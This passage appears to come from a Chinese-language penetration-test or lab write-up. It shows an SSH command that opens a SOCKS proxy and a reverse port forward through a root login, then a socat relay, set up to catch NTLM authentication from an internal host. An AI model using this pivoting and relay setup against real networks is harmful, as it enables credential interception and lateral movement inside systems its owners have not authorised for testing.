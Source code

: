 ```
ssh -i ~/.ssh/id_rsa root@39.99.239.70  -D 47.93.248.221:7777 -R \*:79:127.0.0.1:80

nohup socat TCP-LISTEN:80,fork,bind=0.0.0.0 TCP:localhost:79 &
```

![image-20241118203758796](images/14.png)

此时监听本地的80端口，curl ubuntu内网172.22.11.76的80端口

![image-20241118203903702](images/15.png)

已经收到了请求

开启监听，ntlm的监听就在本地的80端口
